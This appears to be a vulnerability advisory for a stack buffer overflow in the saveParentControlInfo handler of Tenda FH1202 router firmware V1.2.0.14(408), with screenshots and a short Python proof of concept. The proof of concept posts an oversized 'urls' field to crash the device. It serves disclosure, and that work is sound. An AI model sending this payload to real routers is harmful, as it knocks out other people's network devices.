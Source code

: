 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240319223326387](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223326387.png)

it reads in a user-provided parameter `urls`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240319223307458](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223307458.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240319223317455](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223317455.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"urls": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240319223442316](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223442316.png)
